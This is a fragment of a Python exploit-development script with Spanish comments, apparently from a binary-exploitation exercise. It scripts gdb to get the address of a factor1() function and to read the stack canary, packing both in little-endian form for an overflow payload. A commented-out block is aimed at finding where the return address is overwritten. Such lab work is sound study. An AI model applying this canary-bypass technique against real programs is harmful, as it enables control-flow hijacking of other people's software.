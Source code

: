 ```python
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set disassembly-flavor intel")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set pagination off")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("set style enabled off")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("break main")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("run")


    # Extraccion direccion de funcion   factor1()
    gdb_process.expect("(gdb)")
    gdb_process.sendline("p factor1")
    gdb_process.expect_exact("(gdb)", timeout=10)
    address_factor1 = gdb_process.before.decode('utf-8')
    match = re.search(r'0x[0-9a-f]+', address_factor1)
    if match:
       address_factor1_str = match.group(0)  # Extraer la dirección en formato hexadecimal
       address_factor1_int = int(address_factor1_str, 16)
       address_factor1_le = p64(address_factor1_int) # direccion de factor1 en formato little-endian lista para el payload
       gdb_process.sendline(" ") # prepara gdb para recibir el siguiente comando!
    else:
       print("No se pudo extraer la dirección de factor1().")
       exit(1)

    # extraemos la direccion de memoria que nos permitira crear un breakpoint para capturar el canary ya cargado en el stack
    gdb_process.expect("(gdb)")
    gdb_process.sendline("disas factor2")
    gdb_process.expect_exact("(gdb)", timeout=10)
    address_factor2 = gdb_process.before.decode('utf-8')
    lines = address_factor2.splitlines()
    memory_addresses = [line.split()[0] for line in lines if '<+' in line]
    if len(memory_addresses) >= 7:
       seventh_memory_address = memory_addresses[6]
       gdb_process.sendline(" ")
       gdb_process.expect("(gdb)")
       gdb_process.sendline(f"break *{seventh_memory_address}")
       gdb_process.expect("(gdb)")
       gdb_process.sendline("continue")
    else:
       print("No hay suficientes direcciones de memoria en la salida")

    # calculamos el Canary
    gdb_process.expect("(gdb)")
    gdb_process.sendline("x/1gx $rbp-0x8")
    gdb_process.expect_exact("(gdb)", timeout=10)
    output_canary = gdb_process.before.decode('utf-8')
    canary_value = output_canary.split(':')[1].strip().split()[0]
    output_canary_int = int(canary_value, 16)
    output_canary_le = struct.pack('<Q', output_canary_int) # canary listo en formato little-endian para el payload
    gdb_process.sendline(" ")
    gdb_process.expect("(gdb)")
    gdb_process.sendline("continue")

#    codigo temporal para calcular en que punto se sobrescribe el rip
#    gdb_process.expect("(gdb)")
#    gdb_process.sendline("disas factor2")
#    gdb_process.expect_exact("(gdb)", timeout=10)
```